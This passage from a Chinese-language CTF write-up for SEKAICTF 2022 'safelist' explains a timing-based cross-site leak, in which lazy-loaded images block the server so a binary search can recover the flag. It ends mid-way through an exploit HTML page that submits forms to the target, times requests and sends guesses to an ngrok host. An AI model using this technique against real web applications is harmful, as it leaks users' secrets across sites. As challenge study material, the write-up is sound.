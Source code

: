 當我發了一個 request 給 /heavy，再發一個給 /hello，在 `heavyMathCalculation` 跑完以前，我 /hello 都不會收到 response。

雖然說在這題裡面並沒有這種耗時的工作，但如果我們發了一堆 request，那 server 還是需要時間處理，所以在 response 的時間上還是會有差。

總結一下，idea 大概是這樣：

1. 建立一個開頭是 CHAR 的 note
2. 不斷利用 fetch 去偵測 response time
3. 如果 response time 小於 threshold，代表 CHAR 在 flag 後面，所以圖片沒載入
4. 反之，代表 CHAR 在 flag 前面，因為圖片載入了拖慢 server 速度
5. 目標是找到滿足以下條件的 CHAR `time(CHAR)>threshold && time(CHAR+1)<threshold`

底下附上兩張截圖，第一個是 `SEKAI{z` 的，fetch 的載入時間總共是 0.9 秒（30 個 request），速度相對較快代表圖片沒被載入：

![req1](/img/sekaictf2022-safelist-and-connection/p4.png)

這張是 `SEKAI{m` 的，載入時間是 1.7s，明顯可以看出比 z 的多很多，因此第一個字元的範圍一定在 m ~ y 當中。

![req2](/img/sekaictf2022-safelist-and-connection/p5.png)

只要做變化版的二分搜，就可以快速找到是哪個字元，我最後的腳本如下（跑一次可以拿到一個字元）：

https://gist.github.com/aszx87410/155f8110e667bae3d10a36862870ba45

``` html
<!DOCTYPE html>
<html>
<!--
  The basic idea is to create a post with a lot of images which send request to "/" to block server-side nodejs main thread.
  If images are loading, the request to "/" is slower, otherwise faster.
  By using a well-crafted height, we can let note with "A" load image but note with "Z" not load.
  We can use fetch to measure the request time.
-->
<body>
  <button onclick="run()">start</button>
  <form id=f action="http://localhost:1234/create" method="POST" target="_blank">
    <input id=inp name="text" value="">
  </form>

  <form id=f2 action="http://localhost:1234/remove" method="POST" target="_blank">
    <input id=inp2 name="index" value="">
  </form>
  <script>
    let flag = 'SEKAI{'
    const TARGET = 'https://safelist.ctf.sekai.team'
    f.action = TARGET + '/create'
    f2.action = TARGET + '/remove'

    const sleep = ms => new Promise(r => setTimeout(r, ms))
    const send = data => fetch('http://server.ngrok.io?d='+data)
    const charset = 'abcdefghijklmnopqrstuvwxyz'.split('')

    // start exploit
    let count = 0
    setTimeout(async () => {
      let L = 0
      let R = charset.length - 1
      while( (R-L)>3 ) {
        let M = Math.floor((L + R) / 2)
        let c = charset[M]
        send('try_' + flag + c)
        const found = await testChar(flag + c)
        if (found) {
          L = M
        } else {
          R = M - 1
```